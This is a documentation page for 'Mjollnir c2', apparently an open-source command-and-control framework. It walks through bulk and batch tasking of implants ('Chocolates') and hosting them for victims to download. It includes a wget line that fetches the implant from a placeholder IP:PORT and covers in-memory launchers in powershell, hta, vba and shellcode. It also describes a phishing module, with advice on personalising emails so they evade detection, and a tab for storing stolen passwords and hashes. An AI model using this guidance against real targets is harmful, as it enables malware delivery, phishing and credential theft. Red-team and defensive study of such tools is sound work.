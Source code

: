 # Some more advanced Mjollnir's features

[< Index](index.md)

[> Interact with your Chocolate](chocolate-interaction.md)


So far, you know how to start a listener and how to build and interact with a Chocolate. Let's see some advanced features about **Mjollnir c2**.

## Different kind of tasks

Experimenting with your first Chocolate, you accessed it by clicking on the **Dashboard** tab. However there is a better way to do that. Click on the **Tasks** tab like the following:

![](images/advanced-features/tasks.png)

You will see 4 new tabs:
* **Tasks**: allows you to see all your active Chocolates and interact with them the way you did by clicking on the **Dashboard** tab
* **Bulk task**: allows you to select a **group** of Chocolates and order them to execute a specific task
* **Batch task**: allows you to select one Chocolate and order it to execute tasks after tasks automatically
* **On registering task**: allows you to execute several tasks as soon as a Chocolate registers

Those four tabs are very usefull, and I am sure you already know when you could use them.

## Make your Chocolate downloadable

When you create a Chocolate, you may want it to be downloaded by the victim. Hopefully, this is easily feasible!

Once built, your agent will be available on the **Up/download** tab as the following:

![](images/advanced-features/updownload.png)

And thus you can access it easily. But in order to do that, you will have to set a **File server** first.

To start a **File server** you have to go to the **Listeners** tab and select **File server**, and specify the **Bind address** and **Bind port**.

![](images/advanced-features/file_server.png)

Then you should be able to download your Chocolate or some others file like:
```
wget http://IP:PORT/files/chocolate_win_http.exe
```

## Use a Launcher

So, ok it is nice to make your Chocolate downloadable, but sometimes you don't want to drop on the victim's disk your Chocolate. In that case, you would like to use **powershell**, **vba**, a **shellcode** and so on that will download your Chocolate and executes it in memory.

You can do that into Mjollnir. Select the **Launchers** tab like the following:

![](images/advanced-features/launchers.png)

You have to specify the type of the launcher you would like to use:
* powershell
* hta
* vba
* shellcode
* pe

You can use the one you want or implement one that is not listed instead.

The **launcher name** is the name of the launcher that will be available into the **Up/download** tab. So you must start a **File server** first.

By the way, you have to specify the **file server ip** and the **file server port**.

And obviously you have to indicate the name of the Chocolate that will be downloaded. The Chocolate has to be available on the **Up/download** tab.

## You say Phishing?

Well, you know how to create your **launcher** that will download your **Chocolate** and executes it in memory. But how to make the victim download and execute your launcher?

There is a **Phishing** tab. Let's see it:

![](images/advanced-features/phishing.png)

You can define the **campaign's name**, the **SMTP server* you want to use, as well as the **SMTP port**. 

You can define the **source email** / **source email password** that will send the phishing emails. The **display name** is the name that will appears into the victime email. 

You have to create an **email template** in HTTP format. You could add one attachement if needed.

The important point is the **Emails list**. The email list has a **?** next to it. Because it needs some explanations.

If you send, let's say, 2000 identical emails to a company, there are good chances that there will be tagged as phishing (well it is). But if each email is sligtly different, perhaps user personalized, those email will not be tagged as phishing.

Knowing that, you have to create your template carefully included some {{TAG}} into it. Those {{TAG}} will also be into the **Emails lists**.

As an example of **template**:
```
<html>
    <body>
        Hello {{USERNAME}}, thank you for registering with the email: {{EMAIL}} at the date {{DATE}}

        Please submit that {{CODE}} to the application in order to validate your authentication.
    </body>
</html>
```

And an example of **Emails list**:
```
EMAIL,USERNAME,DATE,CODE
thor@mjollnir.fr,Thor God of Thunder,01/01/1900,12345
freyja@mjollnir.fr,Freyja,02/02/1900,54321
odin@mjollnir.fr,Odin,03/03/1900,09876
```

You phishing campaign is availabe on the **Dashboard** tab:

![](images/advanced-features/phishing_list.png)

You can click the corresponding raw, and update your campaign before submitting it !

![](images/advanced-features/phishing_update.png)

## Save your loots

Now that you know how to propagate your Chocolate, and you get some importants informations such as **password** and **hash** of the victim machine, you may want to save them.

There is a **Loots** tab specially crafted for that:

![](images/advanced-features/loots.png)